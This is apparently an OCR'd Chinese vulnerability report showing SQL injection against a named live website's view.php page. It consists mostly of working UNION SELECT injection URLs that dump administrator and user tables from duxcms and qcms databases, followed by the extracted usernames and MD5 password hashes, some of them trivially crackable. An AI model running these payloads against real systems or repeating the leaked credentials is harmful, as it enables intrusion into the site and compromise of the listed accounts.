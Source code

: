 	http://www.dyyz.net.cn/celebrate/view.php?id=251%20and%201=2%20union%20select%201,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,(select%20group_concat(user)%20from%20duxcms.dc_admin)%20--

duxcms.dc_admin中的用户:

	admin

	http://www.dyyz.net.cn/celebrate/view.php?id=251%20and%201=2%20union%20select%201,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,(select%20group_concat(user,password)%20from%20duxcms.dc_admin)%20--

ducms.dc_admin中admin用户的口令

	admin   21232f297a57a5a743894a0e4a801fc3

	http://www.dyyz.net.cn/celebrate/view.php?id=251%20and%201=2%20union%20select%201,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,(select%20group_concat(admin_name)%20from%20qcms.qcms_admin)%20--

qcms.qcms_admin的用户名和口令

	admin
	caomh
	xinfang
	cmhai168

	admin525320665cd767101d732e30768dd276
	caomhcd384a477c8b6114a2bce922ec0c6c5e
	xinfangf342dd5d36c4227a5b22d12915160e67
	cmhai168c49108f46b350741a6a0674dac8d6a83

	http://www.dyyz.net.cn/celebrate/view.php?id=251%20and%201=2%20union%20select%201,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,(select%20group_concat(username,userpwd)%20from%20qcms.qcms_users)%20--

qcms.qcms_users的用户名、口令、email、qq、tel、truename、address、money

	kbenfqir,ckxlllum,ibqydfyr,mlgwwsfx,yqhlmjjf,shufu,lirsetjq,yaya,,madeinchina

	d41d8cd98f00b204e9800998ecf8427e
	d41d8cd98f00b204e9800998ecf8427e
	kbenfqir1f1767b5696e79116b11ecc7f2882783
	ckxlllum1f1767b5696e79116b11ecc7f2882783
	ibqydfyr1f1767b5696e79116b11ecc7f2882783
	mlgwwsfx1f1767b5696e79116b11ecc7f2882783
	yqhlmjjf1f1767b5696e79116b11ecc7f2882783
	shufue10adc3949ba59abbe56e057f20f883e
	lirsetjq1f1767b5696e79116b11ecc7

	d41d8cd98f00b204e9800998ecf8427e
	d41d8cd98f00b204e9800998ecf8427e
	kbenfqir1f1767b5696e79116b11ecc7f2882783sample@email.tst555-666-0606
	ckxlllum1f1767b5696e79116b11ecc7f2882783sample@email.tst555-666-0606
	ibqydfyr1f1767b5696e79116b11ecc7f2882783sample@email.tst555-666-0606
	mlgwwsfx1f1767b5696e79116b11ecc7f2882783sample@email.tst555-666-0606

	这个表总的记录是有问题的,总共4302条记录, 有的没有用户名, 有的没有密码,有效记录只有几条:
